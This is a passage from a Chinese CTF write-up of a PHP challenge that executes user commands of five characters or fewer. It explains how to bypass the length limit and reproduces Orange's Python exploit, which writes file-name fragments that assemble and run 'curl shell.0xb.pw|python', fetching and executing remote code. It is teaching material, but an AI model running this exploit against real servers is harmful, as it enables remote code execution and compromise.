 源码:

```php
<?php
    $sandbox = '/www/sandbox/' . md5("orange" . $_SERVER['REMOTE_ADDR']);
    @mkdir($sandbox);
    @chdir($sandbox);
    if (isset($_GET['cmd']) && strlen($_GET['cmd']) <= 5) {
        @exec($_GET['cmd']);
    } else if (isset($_GET['reset'])) {
        @exec('/bin/rm -rf ' . $sandbox);
    }
    highlight_file(__FILE__);
```

这里需要我们注意的是`cmd <= 5`，所以我们就不能在使用`ls -t>a`。

但是我们还是可以通过比较巧妙的构造来实现`ls -t>a`这么一个操作的。可以先通过把`ls -t>a`这样拆分成几段写入到`_`文件存放。

![](https://ws1.sinaimg.cn/large/64ef14dcgy1fymd36mystj20ey0fcjz2.jpg)

从图中我们就可以看到`_`里面的内容，第一行无效命令，2-5行因为末尾有`\`连接字符的存在所以可以连接字符串形成`ls -t>g`，最后一行执行`ls`。所以`sh _`我们可以得到当前目录`ls -t>g`的效果。达到与`Example 1`一致的效果，其他步骤与`Example 1`类似，就不再赘述了。下面给出`Orange`的`exp`

```python
import requests
from time import sleep
from urllib import quote
payload = [
    # generate `ls -t>g` file
    '>ls\\', 
    'ls>_', 
    '>\ \\', 
    '>-t\\', 
    '>\>g', 
    'ls>>_', 
    # generate `curl orange.tw.tw>python`
    # curl shell.0xb.pw|python
    '>on', 
    '>th\\', 
    '>py\\',
    '>\|\\', 
    '>pw\\', 
    '>x.\\',
    '>xx\\', 
    '>l.\\', 
    '>el\\', 
    '>sh\\', 
    '>\ \\', 
    '>rl\\', 
    '>cu\\', 
    # exec
    'sh _', 
    'sh g', 
]
# r = requests.get('http://localhost/tmp/?reset=1')
for i in payload:
    assert len(i) <= 5 
    r = requests.get('http://localhost/tmp/?cmd=' + quote(i) )
    print i
    sleep(0.2)
```
